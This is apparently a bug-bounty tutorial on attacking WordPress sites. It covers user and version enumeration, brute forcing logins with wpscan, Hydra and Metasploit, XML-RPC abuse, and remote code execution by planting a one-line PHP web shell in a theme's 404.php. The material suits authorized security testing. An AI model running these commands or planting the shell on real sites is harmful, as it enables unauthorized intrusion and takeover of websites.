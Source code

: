# Hacking WordPress

[Relative Cheat Sheet](./wordpress-cheat.md)

## Step-by-Step Guide for Testing and Exploiting WordPress Vulnerabilities

### 1. Understand WordPress Structure
   - **Explanation**: WordPress is a CMS with a core, plugins, themes, and user roles (admin, editor, subscriber). Vulnerabilities often stem from outdated components, misconfigurations, or weak authentication.
   - **Why It's Done**: Mapping the structure (e.g., directories, user roles) identifies attack surfaces like vulnerable plugins or exposed admin panels.
   - **Example**: Use `tree -L 1` to list directories like `/wp-content/plugins/`.

### 2. Enumerate WordPress Version and Components
   - **Explanation**: Check the `<meta name="generator">` tag, README files, or HTTP headers for core, plugin, and theme versions. Use `wpscan --url site -e vp,vt` for automated enumeration.
   - **Why It's Done**: Outdated versions often have known CVEs, making them prime targets.
   - **Example**: `<meta name="generator" content="WordPress 5.4.2">` indicates an old, potentially vulnerable version.

### 3. Enumerate Users
   - **Explanation**: Use `wpscan --url site -e u` or check `/author/1` or `/wp-json/wp/v2/users` to list usernames.
   - **Why It's Done**: Valid usernames enable targeted brute forcing or social engineering.
   - **Example**: Accessing `/author/admin` reveals the username `admin`.

### 4. Brute Force Login Credentials
   - **Explanation**: Use `wpscan --url site --usernames users.txt --passwords pass.txt` or Hydra to brute force `/wp-login.php` or `/xmlrpc.php`.
   - **Why It's Done**: Weak passwords or default credentials (e.g., admin:admin) grant access.
   - **Example**: `hydra -l admin -P passwords.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect"`.

### 5. Exploit Vulnerable Plugins or Themes
   - **Explanation**: Search Exploit-DB or WPScan Vulnerability Database for CVEs in enumerated plugins/themes, then test exploits like SQLi or file upload.
   - **Why It's Done**: Plugins/themes are common entry points for RCE or data leaks.
   - **Example**: Exploit a file upload vuln in an outdated slider plugin to upload a shell.

### 6. Test XML-RPC Vulnerabilities
   - **Explanation**: Target `/xmlrpc.php` for methods like `wp.getUsersBlogs` or `pingback.ping`, which can enable brute forcing or DDoS.
   - **Why It's Done**: XML-RPC is often enabled and poorly secured, allowing attacks.
   - **Example**: Use Metasploit’s `wordpress_xmlrpc_login` to brute force credentials.

### 7. Gain RCE via Theme Editor
   - **Explanation**: If admin access is gained, edit theme files (Appearance > Theme Editor) to insert malicious code (e.g., `<?php system($_GET['cmd']); ?>`).
   - **Why It's Done**: Provides persistent RCE without relying on plugins.
   - **Example**: Add PHP shell to `404.php` and access `/wp-content/themes/theme/404.php?cmd=id`.

### 8. Use Metasploit for Automated Exploits
   - **Explanation**: Load Metasploit modules like `wordpress_xmlrpc_brute` or `wordpress_plugin_upload` to automate attacks.
   - **Why It's Done**: Simplifies complex exploits like multi-step RCE.
   - **Example**: `msfconsole -x "use wordpress_xmlrpc_login; set RHOSTS site; run"`.

### 9. Test Directory Indexing and Misconfigurations
   - **Explanation**: Check for directory listing (`/wp-content/uploads/`) or exposed configs (`wp-config.php`).
   - **Why It's Done**: Reveals sensitive files or database credentials.
   - **Example**: Access `/wp-content/plugins/` to find misconfigured plugins.

### 10. Assess Prevention Measures
   - **Explanation**: Check for security plugins (e.g., Wordfence), disabled XML-RPC, updated components, and strong passwords.
   - **Why It's Done**: Informs remediation, like disabling XML-RPC or enforcing updates.
   - **Example**: Secure app uses `.htaccess` to block `/xmlrpc.php` access.

This guide, based on HackTricks, OWASP, and the provided cheat sheet, equips hunters to test WordPress vulnerabilities effectively. Always test within program scope.